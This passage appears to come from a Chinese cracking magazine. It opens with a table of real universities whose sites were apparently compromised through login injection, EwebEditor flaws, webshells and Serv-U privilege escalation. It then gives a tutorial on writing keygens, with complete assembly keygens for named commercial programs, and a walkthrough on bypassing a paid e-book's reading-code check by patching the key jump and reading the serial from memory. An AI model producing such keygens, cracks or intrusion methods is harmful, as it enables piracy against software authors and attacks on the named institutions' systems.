| 上海交通大学 | 分站 (1) | 该管理员 BT 但是存在漏洞较多如后台 "or" = "or" 登陆 | 提权没有成功 |
| 南京大学 | 分站 (1) | EwebEditor 密码清空 | |
| 哈尔滨工业大学 | 分站 (3 个不连同一个段服务器的站点) | 密码设置相当的高，大部分可以提权，就看你到底服务器熟练度 | Serv-U 提权 |
| 四川大学 | 分站 (里面有十几个学院的网站) | 通过低版本 EwebEditor 的编辑器提权 | 权限设置相当的高，可以写，却不能执行 |
| 上海大学 | 后面的这十所大学，是为了证明了前十所著名大学，其它的大学同样存在 ewebeditor 漏洞，我总结的原则是：并没有针对某个学校进行，所以只寻找到了一个 webshell 即可，所以并不表示一个学校只有其上列数目的漏洞存在漏洞，他们只是代表，而且这十所大学网站的 ewebeditor 在该文不便透露的是那些密码相当的简单，有的就是默认的密码，这样进去自然是相当的容易了。 | | |
| 长江大学 | | | |
| 重庆大学 | | | |
| 云南大学 | | | |
| 山西大学 | | | |
| 西南交通大学 | | | |
| 湖北大学 | | | |
| 东北大学 | | | |
| 五北大学 | | | |
| 河北理工大学 | | | |

洞，希望各大高校已经做了安全处理，要不然，各位鸟人们的安检工作又将遍及祖国各地……

# 代码克隆技术与注册机编写 [下篇]

风飘雪

手术刀：keymake, ollydbg (我用的是 OllyICE)。

进化加速器：ollydbg 插件：asm2clipboard v0.4, coderipper1.3。

熟练以后复印机：masm32, 各种注册机模板。

相信上期的代码克隆撰写注册机入门篇已经令很多读者心动了，都跃跃欲试，但初学者可能会碰壁，遇上很多的小障碍。下面继续来看笔者的一些心得和体会，终结篇奉上！

## 一、查表算法

查表算法是注册常用算法，约占注册算法的 50%，下面来看看这类查表算法注册机的写法。

[例 6]

```assembly
:0040141B 31FF                  xor edi, edi  // edi清零，作为记数器
:0040141D EB30                  jmp 0040144F
|======================= 循环开始=======================
:0040141F 0FB6443DBE            movzx eax, byte ptr [ebp+edi-42]
// 依次提取输入的注册码字符的十六进制放入 EAX 中
:00401424 0FB6543DDF            movzx edx, byte ptr [ebp+edi-21]
// 依次提取用户名字符的十六进制放入 EDX 中
:00401429 83EA20                sub edx, 00000020 //edx=edx-0x20小写变大写
:0040142C 0FBE1413 movsx edx, byte ptr [ebx+edx]
// ebx 地址中放的是一段数据，这个 crackme 是典型的查表类型，看一下表中 [ebx+edx] 中装的数是多少
表格如下：
203945709398475029384750293875577934765620110289347563929867122287863095762304984875020398746563
:00401430 39D0                  cmp eax, edx // 比较 eax、edx 是否相等
:00401432 741A                  je 0040144E // 不跳就出错
。。。。。。。。。。。。。。。。
:0040144E 47                    inc edi // edi=edi+1, edi 是记数器
:0040144F 39F7                  cmp edi, esi
:00401451 7CCC                  jl 0040141F
// 形成循环，循环结束====================
```

其 keymake 算法注册机如下: (keygen.rek)

```assembly
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail    db "mailto:fpx425@163.com",0
szErrMess  db "请输入姓名!",0
szBuffer1 db "203945709398475029384750293875577934765620110289347563929867122287863095762304984875020398746563"
szBuffer db 50 dup (0)

.code
mov esi,eax
invoke lstrlen,esi
mov ecx,eax
xor edi,edi
xor ebx,ebx
xor eax,eax
n1:
movzx edx,byte ptr [esi+edi]
sub edx,20h
movsx edx,byte ptr [szBuffer1+edx]
mov byte ptr [szBuffer+edi],dl
inc edi
cmp edi,ecx
jl n1
lea eax,szBuffer
```

# 〔例 7〕

有两张表，位于 402017 和 40203C 处。算法过程略，自己分析。很简单。

关键代码如下:

```assembly
00401197    B9 FFFFFFFF        mov ecx,-1
0040119C    41                 inc ecx 循环开始
0040119D    0FBE81 60214000    movsx eax,byte ptr ds:[ecx+402160] 输入的姓名
004011A4    83F8 00            cmp eax,0
004011A7    74 32              je short chap203.004011DB
004011A9    BE FFFFFFFF        mov esi,-1
004011AE    83F8 41            cmp eax,41 输入的字符小于 A, 出错
004011B1    7C 67              jl short chap203.0040121A
004011B3    83F8 7A            cmp eax,7A 输入的字符大于 z, 出错
004011B6    77 62              ja short chap203.0040121A
004011B8    83F8 5A            cmp eax,5A 小于 Z 即大写字母不处理
004011BB    7C 03              jl short chap203.00401210
004011BD    83E8 20            sub eax,20 小写字母, 则变大写
004011C0    46                 inc esi 计数器累加
004011C1    0FBE96 17204000    movsx edx,byte ptr ds:[esi+402017]
004011C8    3BC2               cmp eax,edx 在第一张表中找到姓名的字符为止
004011CA  ^ 75 F4              jnz short chap203.004011C0
004011CC    0FBE86 3C204000    movsx eax,byte ptr ds:[esi+40203C] 取这时的第二张表中的 esi 位置处的字符
004011D3    8981 94214000      mov dword ptr ds:[ecx+402194],eax
004011D9  ^ EB C1              jmp short chap203.0040119C 姓名依次取单字符, 循环
```

注册码最后保存在 402194 处。

Keygen.rek 如下:

```assembly
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail    db "mailto:fpx425@163.com",0
szErrMess  db "请输入姓名!",0
```

```assembly
szBuffer1 db "A1LSK2DJF4HGP3QWO5EIR6UTYZ8MXN7CBV9"
szBuffer2 db "SU7CSJKF09NCSDO9SDF09SDRLVK7809S4NF"
szBuffer db 50 dup (0)
len dd 0

.code
mov ebx,eax
invoke lstrlen,ebx
mov len,eax
xor ecx,ecx
n1:
movsx eax,byte ptr [ebx+ecx]
inc ecx
xor esi,esi
cmp eax,5Ah
jl n2
sub eax,20h
n2:
movsx edx,byte ptr [szBuffer1+esi]
inc esi
cmp eax,edx
jnz n2
movsx eax,byte ptr [szBuffer2+esi-1]
mov dword ptr [szBuffer+ecx-1],eax
cmp ecx,len
je n3
jmp n1
n3:
lea eax,szBuffer
```

说明: 因为-1 不太容易编译成功，将-1 变为 0，相应地进行了计算器的调整。

## 二、keymake 算法注册机技巧与心得

第一个需要注意的问题是: 遇到大的数字, 记得加上 h。因为我们在 ollydbg 反汇编代码中看到的数字都是 16 进制的, 而在 keymake 中的 32 位汇编中, 不加 h 标识的数字都认为是十进制的。

第二个: 注意将 dword ptr [ebp - xx] 用变量 xx 替换。相应地，变量 xx 在 .data 中定义如下: xx dd 0 (DWORD 所以用 dd, 如果是 WORD 就用 dw, 如果是 BYTE 就用 db)。

# 〔例 8〕

keygen.rek 如下:

```assembly
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail    db "mailto:fpx425@163.com",0
szErrMess  db "请输入姓名!",0
szHex db "%lu",0
szBuffer db 50 dup (0)
a1 dd 0
a2 dd 0
len dd 0

.code
mov esi,eax
invoke lstrlen,esi
mov len,eax
mov a1,0
mov a2,81276345h
jmp n3
n2:
mov edx,a1
add edx,1
mov a1,edx
n3:
mov eax,a1
cmp eax,len
jge n1
```

```assembly
mov ecx,a1
movsx edx,byte ptr [esi+ecx]
mov eax,a2
add eax,edx
mov a2,eax
mov ecx,a1
shl ecx,8
mov edx,a2
xor edx,ecx
mov a2,edx
mov eax,a1
add eax,1
mov ecx,len
imul ecx,a1
not ecx
imul eax,ecx
mov edx,a2
imul edx,eax
mov a2,edx
jmp n2
.n1:
invoke wsprintf,addr szBuffer,addr szHex,a2
lea eax,szBuffer
```

说明：将 dword ptr ss:[ebp-10] 定义为 a2，用 a2 替换；dword ptr ss:[ebp-20] 定义为 a1，用 a1 替换；dword ptr ss:[ebp-1C] 定义为 len，用 len 替换，表征姓名字符串的长度。

注意：在程序的反汇编代码中寻找 a1、a2 的初始值。

假设你看不懂算法，只知道乱七八糟的一堆汇编代码，也依然可以写出它的注册机。

## 三、Keymake 基本使用说明指南

keymake 程序初始时，默认的是，令 EAX 指向第一个编辑框（也就是输入序列号的窗口）收到用户输入的数据；令 EBX 指向第二个编辑框收到用户输入的数据；令 ECX 指向第三个编辑框收到用户输入的数据。如果你要对用户输入的序列号或用户名等信息进行操作，那么就可以对 EAX、EBX、ECX 进行操作。

对于反汇编出来的源指令并不需要过多地了解它在干什么，只要将其中的每个地址改成一个变量地址的声明，然后再原封不动地抄到注册机编辑器的代码窗口中即可。点击编译就可以很容易地得到一个注册机了。需要说明的是因为 keymake 只是一个模板，所以在程序中软件作者使用了以下几个变量：hCursorHandle、hInstance、hIcon、hTempEBP、hInput、hMode，请不要再重复声明，以免出错。在指令结束时，一定要让 EAX 指向正确的注册码地址。

以下几个是进制转换函数和 keymake 作者加入的部分自定义函数，你也可以在编写注册机的过程中调用它们（使用时千万不要把大小写弄错了）。

- `atodw`: 将十进制的内容 ASCII 数值转换为数据元素  
  使用格式: `invoke atodw,指向存放内容数值的缓冲区`
- `htodw`: 将十六进制的内容 ASCII 数值转换为数据元素  
  使用格式: `invoke htodw,指向存放内容数值的缓冲区`
- `MakeCrypt`: 对内存缓冲区数据进行加密  
  使用格式: `invoke MakeCrypt,指向要加密的字符缓冲区,指向接收加密后的字符缓冲区`
- `UnMakeCrypt`: 对内存缓冲区数据进行解密  
  使用格式: `invoke UnMakeCrypt,指向要解密的字符缓冲区,指向接收解密后的字符缓冲区`
- `wsprintf`: 使用既定格式格式化数据元素  
  使用格式: `invoke wsprintf,指向存储输出的字符缓冲区,指向以空值结尾的包含格式化选项的字符串,指向一个数据元素列表`
  数据格式化选项:
  - `%d, %i` 有符号十进制数值;
  - `%ld, %li` 长的有符号十进制数值;
  - `%u` 无符号十进制数值;
  - `%lu` 长的无符号十进制数值;
  - `%x, %X` 十六进制整数值, %x 输出小写, %X 输出大写;
  - `%lx, %lX` 长的十六进制整数值, %lx 输出小写, %lX 输出大写;
  - `#` 0x 字符串的前缀数据, 一般在显示十六进制值时使用。

精度修饰符——小数点后跟一个数，指定复制到输出缓冲区数字的最小数目。如果给定数字位数小于精度指定位数，域中用 0 填充，默认情况从左边填充。假如给定精度“.10”，数“3.14”复制到输出缓冲区后变为“00000003.14”。

如无特别说明或已经指定了输出位置，在 Win32 程序中所有的结果都返回在 eax 中。

比如要将内存中的十进制数值“12345678”转换为十六进制，输出结果以 0x 为前缀，再进行加密。

```assembly
数据区:

szXor16 db "%#lX",0
szNum10 db "12345678",0
szBuffer db 50 dup (0)
szOutMem db 50 dup (0)
```

```assembly
代码区:

invoke atodw,addr szNum10 ; 这一句是将内存中的数值 12345678 当作十进制转换为数据元素,返回的结果在 eax 中,那么 eax=bc614e
invoke wsprintf,addr szBuffer,addr szXor16,eax ; 这一句是将 eax 中的值以十六进制大写输出到内存 szBuffer 位置。
invoke MakeCrypt,addr szBuffer,addr szOutMem ; 这一句是将指向内容 szBuffer 的数据加密后输出到内存 szOutMem 的位置。
```

再比如，要将内存中的十六进制数值“ABCDEF”转换为十进制，输出长度为 20 位数，再进行解密。

```assembly
数据区:

szXor10 db "%l.20u",0
szNum16 db "ABCDEF",0
szBuffer db 50 dup (0)
szOutMem db 50 dup (0)
```

```assembly
代码区:

invoke htodw,addr szNum16 ; 这一句是将内存中的数值 ABCDEF 当作十六进制转换为数据元素,返回的结果在 eax 中,那么 eax=abcdef
invoke wsprintf,addr szBuffer,addr szXor10,eax ; 这一句是将 eax 中的值以十进制输出到内存 szBuffer 位置。
invoke UnMakeCrypt,addr szBuffer,addr szOutMem ; 这一句是将指向内容 szBuffer 的数据解密后输出到内存 szOutMem 的位置。
```

另外需要说明的是：在安装 keymake 时不要使用默认目录 (C:\Program Files\KeyMake)，即在安装目录选择时不能有空格，这是因为编译时，MASM32 编译程序检查 include 文件时，如果目录名有空格，将导致找不到包含文件，就无法完成编译了。

### [例 9]

某软件：小护士 V1.2，注册算法为：注册码 = 机器码 XOR 78AB1234 的十进制值！

显然，78AB1234 为 16 进制数。

根据上面学的，用 atodw 函数

```assembly
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail db "mailto:fpx425@163.com",0
szErrMess db "输入的机器码不正确！",0
szFMT db "%d",0
szBuffer db 30 dup (0)

.code
invoke atodw,eax

assembly
xor eax,78AB1234h
invoke wsprintf,addr szBuffer,addr szFMT,eax
lea eax,szBuffer
```


## [例 10] 象棋桥 2.1

关键代码如下:

```assembly
004846B7  33C9          xor ecx,ecx
004846B9  8A08          mov cl,byte ptr ds:[eax]
004846BB  8B45 F4       mov eax,dword ptr ss:[ebp-C]
004846BE  33DB          xor ebx,ebx
004846C0  8A58 01       mov bl,byte ptr ds:[eax+1]
004846C3  8B45 F4       mov eax,dword ptr ss:[ebp-C]
004846C6  0FB670 02     movzx esi,byte ptr ds:[eax+2]
004846CA  8B45 F4       mov eax,dword ptr ss:[ebp-C]
004846CD  0FB678 03     movzx edi,byte ptr ds:[eax+3]
004846D1  8B45 F4       mov eax,dword ptr ss:[ebp-C]
004846D4  0FB640 04     movzx eax,byte ptr ds:[eax+4]
004846D8  8945 F0       mov dword ptr ss:[ebp-10],eax
004846DB  8D040B       lea eax,dword ptr ds:[ebx+ecx]
004846DE  03FE         add edi,esi
004846E0  F7EF         imul edi
004846E2  F76D F0      imul dword ptr ss:[ebp-10]
004846E5  B9 A0860100   mov ecx,186A0
004846EA  99           cdq
004846EB  F7F9         div ecx
004846ED  8BDA         mov ebx,edx
004846EF  8D55 F4      lea edx,dword ptr ss:[ebp-C]
```

Keygen.rek 如下:

```assembly
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail    db "mailto:fpx425@163.com",0
szErrMess  db "输入的序列号不正确! ",0
TempBuffer db 100 dup (0)
szHex db "CCB21R-%lu",0
a1 dd 0

.code
xor ecx,ecx
mov cl,byte ptr [eax]
xor ebx,ebx
mov bl,byte ptr [eax+1]
movzx esi,byte ptr [eax+2]
movzx edi,byte ptr [eax+3]
movzx eax,byte ptr [eax+4]
mov a1,eax
lea eax,dword ptr [ebx+ecx]
add edi,esi
imul edi
imul a1
mov ecx,000186A0h
cdq
idiv ecx
mov ebx,edx
invoke wsprintf,addr TempBuffer,addr szHex,ebx
lea eax,TempBuffer
```

留意标记的部分。

## [例 11] Flash Cam1.79 注册算法

关键代码（企业版）如下：

```assembly
;005168E1 BBDB070000          mov ebx, 000007DB
;005168E6 8B45FC              mov eax, dword ptr [ebp-04]
;005168E9 E832D8EEFF          call 00404120
;005168EE 8BF0                mov esi, eax
;005168F0 85F6                test esi, esi
;005168F2 7E4A                jle 0051693E
;005168F4 BF01000000          mov edi, 00000001
```

```assembly
* Referenced by a (U)nconditional or (C)onditional Jump at Address:
|;0051693C(C)
|
;005168F9 8B45FC              mov eax, dword ptr [ebp-04]
;005168FC 8A4C38FF            mov cl, byte ptr [eax+edi-01]
;00516900 33C0                xor eax, eax
;00516902 8AC1                mov al, cl
;00516904 8D570D              lea edx, dword ptr [edi+0D]
;00516907 F7EA                imul edx
;00516909 03D8                add ebx, eax
;0051690B 8BC3                mov eax, ebx
;0051690D BBFFC99A3B          mov ebx, 3B9AC9FF
;00516912 99                  cdq
;00516913 F7FB                idiv ebx
;00516915 8BDA                mov ebx, edx
;00516917 8B45FC              mov eax, dword ptr [ebp-04]
;0051691A 80F145              xor cl, 45
;0051691D 33C0                xor eax, eax
;0051691F 8AC1                mov al, cl
;00516921 F76DF8              imul [ebp-08]
;00516924 03D8                add ebx, eax
;00516926 8BC3                mov eax, ebx
;00516928 B9FFC99A3B          mov ecx, 3B9AC9FF
;0051692D 99                  cdq
;0051692E F7F9                idiv ecx
;00516930 8BDA                mov ebx, edx
;00516932 69C72B300600        imul eax, edi, 0006302B
;00516938 03D8                add ebx, eax
;0051693A 47                  inc edi
;0051693B 4E                  dec esi
;0051693C 75BB                jne 005168F9
```

```assembly
* Referenced by a (U)nconditional or (C)onditional Jump at Address:
|;005168F2(C)
|
;0051693E 8BC3                mov eax, ebx
;00516940 B9FFE0F505          mov ecx, 05F5E0FF
;00516945 99                  cdq
;00516946 F7F9                idiv ecx
;00516948 8BDA                mov ebx, edx
;0051694A 8BC3                mov eax, ebx
;0051694C B906000000          mov ecx, 00000006
;00516951 99                  cdq
;00516952 F7F9                idiv ecx
;00516954 83C241              add edx, 00000041
;00516957 8855F3              mov byte ptr [ebp-0D], dl
;0051695A 895DEC              mov dword ptr [ebp-14], ebx
;0051695D DB45EC              fild dword ptr [ebp-14]
;00516960 83C4F4              add esp, FFFFFFF4
;00516963 DB3C24              fstp tbyte ptr [esp]
;00516966 9B                  wait
;00516967 8D45E8              lea eax, dword ptr [ebp-18]
;0051696A 8A55F3              mov dl, byte ptr [ebp-0D]
;0051696D E8D6D6EEFF          call 00404048
;00516972 8D45E8              lea eax, dword ptr [ebp-18]
```

```assembly
* Possible StringData Ref from Code Obj ->"00-000-000"
|
;00516975 BAC0695100          mov edx, 005169C0
```

其 keygen.rek 文件如下：

```assembly
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail db "mailto:fpx425@163.com",0
szErrMess db "没输入姓名! ",0
szFmt db "%0.8u",0
szTemp db 10 dup(0)
szCode db 14 dup(0)
a1 dd 147h

.code
mov ebx,7DBh
invoke lstrlen,eax
mov esi,eax
mov edi,1
n1:
lea eax,hInput1
mov cl,byte ptr [eax+edi-1]
xor eax,eax
mov al,cl
lea edx,dword ptr [edi+0Dh]
imul edx
add ebx,eax
mov eax,ebx
mov ebx,3B9AC9FFh
cdq
idiv ebx
mov ebx,edx
xor cl,45h
xor eax,eax
mov al,cl
imul a1
add ebx,eax
mov eax,ebx
mov ecx,3B9AC9FFh
cdq
idiv ecx
mov ebx,edx
imul eax,edi,0006302Bh
add ebx,eax
inc edi
dec esi
jne n1
mov eax,ebx
mov ecx,05F5E0FFh
cdq
idiv ecx
mov ebx,edx
mov eax,ebx
mov ecx,6
cdq
idiv ecx
add edx,41h
mov byte ptr szTemp,dl
invoke wsprintf,addr szTemp+1,addr szFmt,ebx
lea esi,szTemp
lea edi,szCode
n2:
mov ecx,3
rep movsb
mov [edi],byte ptr "-"
inc edi
dec edx
jnz n2
mov [edi-1],byte ptr 0
lea eax,szCode
```

注意其中标记的部分。
最后编译即可。

## 四、快速进化功力提升速成技巧

最初，我都是自己一个一个敲代码的，非常耗时且极容易出错，后来发现了两个宝贝，便如乌龟穿上了火箭鞋，几分钟一个keygen，跟复印机似的，相当好用。

不敢私藏，得告诉读者，就是ollydbg插件，asm2clipboard v0.4和coderipper1.3。这两个插件功能雷同，方便你rip汇编代码用的。下面仍以例1为例，进行说明：

先看asm2clipboard插件，如图1，先选中欲复制的代码。

如图2的右键菜单操作，将代码rip为MASM格式。

得到以下汇编代码：

```assembly
xor edx,edx
xor eax,eax
; cmp ecx,eax 删掉
; jle short 004011EDH 删掉
L004:
xor ebx,ebx
; mov bl,byte ptr [ebp+eax-1Ch]
小修一下
add edx,ebx
inc eax
cmp ecx,eax
jg L004
```

真是方便了很多。
再看看另一个插件，功能更加强大，是由 SND 破解组织出品的 Code Ripper，最新为1.3版。如图1选中代码后，如图2的右键菜单操作中选 Code Ripper，弹出如图3所示的窗口，整个就是一个新的有很多功能的小软件。仔细研究吧，一定受益多多！

Keymake 编写算法注册机还有很多的缺点，其实keymake实质就是提供了一个MASM的界面，且编译出错也不告诉你哪一行出错，给调试带来很大的工作量和麻烦。只是小巧、简洁、易上手罢了。读者熟练后，可利用网上的 N 多 keygen 模板和 MASM32 汇编编写程序，那才是顶级的代码复写机和印钞机。希望读者看完此文，写注册机水平能有质的飞跃和提高，则作者

不胜欣慰。

> **编辑点评：**以后在破解的时候又多了一条途径，代码克隆，当你不想去分析复杂的算法时确实是一个很好的选择。两期的连载，并不能把这种技术讲述得面面俱到，其余部分还是需要读者自己查阅相关资料，继续努力。

## 从本文你可以学到：

- 破解 vb 经典编程.exe 的方法
- 我用这些工具，假设你也使用它们。
- 查壳工具 PEiD。
- 动态调试器 OD。

今日从某个网站载来一些书，可是呢，现在的作者忒抠门点，说：“前面的你看好了，不收你钱。”言下之意就是后面的就要 RMB 了，或者一些比付钱更加痛苦的事情也可以得到一个阅读码。可我是穷人啊，再说我是 cracker 啊，自己动手丰衣足食！

越来越习惯于 OD 的强大，所以，一发现它没有壳，我就用 OD 开始调戏它了！（小编汗……）

本来，一个 delphi 的程序应该用 dede 来分析。可是作者尽是用了一些不可视化的表达 unit1, unit2 等等，所以 DD 不好分析。我就顺便用 DD 输出了一个 map 文件供 OD 用（输出->ida/softice 的 map/sym 文件，在输出文件下填好路径—>输出文件），OD 的 loadmap 插件载入它，其实这点干与不干一个样，没用！但这是一个好习惯，而且看起来软件更加清楚。这里没用不表示所有地方都没用。你记下了吗？

一载入，就是查找字符串。

```assembly
/*4891A9*/ MOV EDX,vb 经典编.004892DC
......代表若干行代码
/*48C3E0*/ MOV EDX,vb 经典编.0048C494 // 机器码:
/*48C3E5*/ CALL vb经典编.00403DC4 //->system.@LStrCat3;这是输入map文件后多出来的注释
/*48C3EA*/ LEA EDX,DWORD PTR SS:[EBP-10]
```

## [PAGE 61]

```assembly
/*48C3FC*/ LEA EAX,DWORD PTR SS:[EBP-14]
/*48C3FF*/ MOV ECX,vb 经典编.0048C4A8 //--阅读密码
......
/*495017*/ MOV ECX,vb 经典编.004950F4 //提示
/*49501C*/ MOV EDX,vb 经典编.0049517C //现在可阅读全部目录了!
/*495021*/ MOV EAX,DWORD PTR DS:[4A0A80]
......
/*49502F*/ PUSH 0
/*495031*/ MOV ECX,vb 经典编.004950F4 //提示
/*495036*/ MOV EDX,vb 经典编.00495194 //阅读文书密码错误!
```

还有一些 “文件已被非法改动，不能打开！” “异常” 等也告诉我们，可能有自校验。首先当然是爆破试试，因为简单。根据上面的感觉随便找一点，理论上都可以实现爆破。当然在失败之后，我放弃了，你也快快放弃吧！毕竟校验不是盖的。我对自己说，还是序列号更现实。

OD 载入它，有异常不管，直接 Shift + F9，记得吗？很多次之后我们来到的是 kernel32 的领空。因为是 DELPHI 写的，那么先请你看如下的文字：

> Q:DELPHI、C++ Builder 编译的软件用 GetWindowText 等断点拦不住?
> A:这是因为 DELPHI 通过向 Edit 发送 WM_GETTEXT (直接调用 WNDProc; 而没有使用消息函数) 消息来获得 Text 的内容的，整个过程没有调用过任何 Win32 API 函数。所以常用的 GetDlgItemTextA、GetWindowTextA 等断点失效是当然的。那么如何才能将用户输入的字符串拷贝到软件的缓冲区中时使 OD 中断呢? 办法有多种，例如用 DeDe 反编译得到该事件的地址，对此地址设置拦截。

懒人啦，我是啦。

好了，点击最下面那一章。出现一个提示注册的框，如图 1。

输入 123789。

好吧！既然我们心爱的 GetWindowTextA 是不能断了的，那么 MessageBoxA 还是可以的。真的下断 MessageBoxA 吗？当然我不会选择 MessageBoxA，更好的是用 apibreak 插件下万能断点。MessageBoxA 要从后面找前面，而万能断点是从前面顺着调试一直走下来！这里要说明一点，有些人看到万能断点出来后有一个 API 叫 CallWindowProcA，就认为可以达到同样的效果，那么在你试过之后就会发现不可以。因为每次选择这个软件它就会被调用，所以根本来不及看到软件的面目就被 OD 断下了。还有假如你要断 CallWindowProcA，如果你现在直接按 ctrl + n 的话，那么你是不会看见 CallWindowProcA 的，因为我们现在在的是 kernel32 的领空，而 CallWindowProcA 很不好意思的是 user32 的函数。你可以用命令框输入 bp CallWindowProcA，或者 ctrl + g (转到——>表达式)，输入 49E12C (这是它的人口点，你可以用 stud_pe 看看)。现在 ctrl + n 才可以看见这个函数。

用插件 apibreak 下万能断点。点击确定，断下后取消万能断点。

```assembly
/*494FC2*/ CALL vb 经典编.0042F9B8
/*494FC7*/ CMP BYTE PTR DS:[EBX+28215],0C7 <——慢慢出来之后在这里，因为刚才的都只是在平衡堆栈而已。这里 F2 下一个断点，防止待会儿万一程序跑飞又要重新下万能断点。这都是好习惯。
/*494FCE*/ JBE SHORT vb 经典编.00494FF2
```

在这之后气氛就渐渐浓起来了。我们慢慢地 F8 跟踪。眼睛看着代码窗口，寄存器窗口，数据窗口，信息窗口......

当信息窗口出现如图 2 所示的页面时，表示接下来有事情要

发生了。还不明白，这个一长串不就是图 1 中所示的机器码吗？看来不远处就

会有结果了。

往下看。

```assembly
/*495006*/ CALL vb 经典编.00403E88
/*49500B*/ JNZ SHORT vb 经典编.0049502F
......省略一些无用代码
/*495028*/ CALL vb 经典编.0044DEF0
/*49502D*/ JMP SHORT vb 经典编.00495047
```

看到这个不知道你有没有感触上面一个 jnz 和下面的 jmp 是相克的，上面的跳走就不会有下面的跳，上面的不跳下面的就跳了。虽然说还有很多的 call，但是只有这两个这么有趣的。我们直接运行到 49500B。OD 的跳转变红显示它要跳，我假设这里是关键跳转。因为我输入的伪码肯定是错的，所以我就不能让它从这里跳走。在 Z 标志位上双击，代码窗口中本来红色的跳转变成了灰色，说明它不会跳了，现在我们就直接 F9 (运行) 看看会有什么结果。用画图更加有说服力。如图 3。

这只是成功的第一步。虽然就像它显示的一样现在我们可阅读全部目录了，但是每次都这样操作一番简直就是锻炼我们的耐性。我们再接再厉。

现在我们 ctrl + F2 重新来过。知道了 495006 这个是比较关键的 call。前面一共有四个 call，其中一个在我们 F8 调试的时候明确可以知道这个 call 是取的伪码，这点很重要。顺便说一下 delphi 的特征，delphi 中经常拿寄存器来传值了，不像 vc 那样还是用堆栈。我们分别从下往上来看。其实这个家伙是明码比较的。

```assembly
/*494FFB*/ CALL vb 经典编.0042F9B8; 这里出来之后才第一次在信息窗口中看到伪码
/*495000*/ MOV EAX,DWORD PTR SS:[EBP-4C]
/*495003*/ MOV EDX,DWORD PTR SS:[EBP-4]
/*495006*/ CALL vb 经典编.00403E88
/*49500B*/ JNZ SHORT vb 经典编.0049502F
```

根据 494FFB 处这个 call 的特殊性，我们基本上可以确定了，495006 这是一个关键 call，因为想想也知道要是没有伪码出现就一切都处理好了，那么要注册码何用？如何来判断是否注册呢？所以上面代码中赋给 EAX、EDX 的值就非常关键了。F8 走过之后发现 EAX 指向的内存地址的值是伪码，而 EDX 不用说了吧，就是指向注册码的地址了，我这边的值是 “1?_H$h30” 引号不包括在内。不难猜想，前面有一些代码是在根据机器码生成重要数据，而下面的一个 call 呢，则是在进行比较。此刻我们来看看它们是怎么比较的。我们分三块来看这个貌似不起眼的比较。我觉得这里的比较很有趣，所以想谈谈。而且我本来期待着可以找出更多的可用注册码，在仔细分析了这些代码之后我就知道不可能了。

- （一）这里我们要关注的是 EDX 的值的产生。

```assembly
/*403E9F*/ MOV EAX,DWORD PTR DS:[ESI-4]; 这是伪码长度赋给 EAX
/*403EA2*/ MOV EDX,DWORD PTR DS:[EDI-4]; 这是真码长度赋给 EDX，也就是 9。
/*403EA5*/ SUB EAX,EDX; 这一句话其实有点致命
/*403EA7*/ JA SHORT vb 经典编.00403EAB; JA 的意思是高于时跳转，条件是 ZF=0 且 CF=0。注册码最多只允许你输入 9 个数字。
/*403EA9*/ ADD EDX,EAX; 假如上面没有跳，和 403EA5 这句联合在一起看，达到的效果就是 EDX=EAX，而 EAX 的值在这里也被注定位 EAX=EAX-EDX
/*403EAB*/ PUSH EDX; 暂时保存一下待会儿要用
/*403EAC*/ SHR EDX,2; 相当于 EDX=EDX div 4。
/*403EAF*/ JE SHORT vb 经典编.00403ED7
```

- （二）这是一个循环，若跳到循环外面就是死。通常明码比较的方法很多，而下面的这种我还是觉得很好玩。假如判断只有这么一些的话，那么我用“，1?_H$h3”也可以注册成功，但是……下面（三）还有一个判断。

```
/*403EB1*/  MOV ECX,DWORD PTR DS:[ESI]; ESI是伪码地址
/*403EB3*/  MOV EBX,DWORD PTR DS:[EDI]; EDI是真码地址
/*403EB5*/  CMP ECX,EBX; 判断前四位是否相同
/*403EB7*/  JNZ SHORT vb 经典编.00403F11
/*403EB9*/  DEC EDX
/*403EBA*/  JE SHORT vb 经典编.00403ED1
/*403EBC*/  MOV ECX,DWORD PTR DS:[ESI+4]
/*403EBF*/  MOV EBX,DWORD PTR DS:[EDI+4]
/*403EC2*/  CMP ECX,EBX; 判断后四位是否相同
/*403EC4*/  JNZ SHORT vb 经典编.00403F11
/*403EC6*/  ADD ESI,8; 指针移动
/*403EC9*/  ADD EDI,8; 同上，指向了最后一个字符
/*403ECC*/  DEC EDX
/*403ECD*/  JNZ SHORT vb 经典编.00403EB1
（三）
/*403ECF*/  JMP SHORT vb 经典编.00403ED7
/*403ED1*/  ADD ESI,4
/*403ED4*/  ADD EDI,4
/*403ED7*/  POP EDX; 上面有保存的
/*403ED8*/  AND EDX,3
/*403EDB*/  JE SHORT vb 经典编.00403EFF; 看到这一行我本
```

来还高兴了一下，以为可以构造一个新的注册码，谁知这条语句跳向的是 AND EAX,EAX。希望破灭。

```
/*403EDD*/  MOV ECX,DWORD PTR DS:[ESI]
/*403EDF*/  MOV EBX,DWORD PTR DS:[EDI]
/*403EE1*/  CMP CL,BL; 这里是最后的第一九位判断是否相同，这
```

里其实有一点技巧了
我们在命令行框中输入 d esi，看到的是这样的：00E0265C 30 00 00 00 由于在内存中数据存储是逆向的，所以其实在处理中这里的值就是00 00 00 30。在 d edi，00E02644 30 00 BC C7 同上面的道理这里的值就是 C7 BC 00 30。故 ECX = 00000030，EBX=C7BC0030。真正是我们输入的伪码只是 ECX 的低位即 CL。所以比较时要两个低位比较。

```
/*403EE3*/  JNZ SHORT vb 经典编.00403F26; 是否成功就在此一举了
```


到这里我们也已经把它分析得差不多了。因为注册码是从一开始就躺在那里的，对于这种东西我们直接 winhex 找内存就可以发现序列号了。如图 4。

这个东西的致命缺点就是明码比较，但要赞叹的一点是防爆破做得很好。

编辑点评：有验证就可以爆破吗？当然不，我们可以先把验证的部分解除啊，你可以参看前几期的《手册》，而防爆破做得好也只是要你多付出耐心。

# 揪出被易语言隐藏的字符串

December

+ 从本文你可以学到：
- 了解易语言程序的特点
- 如何在破解易语言时使用“超级字符串”插件

# 【预备知识】

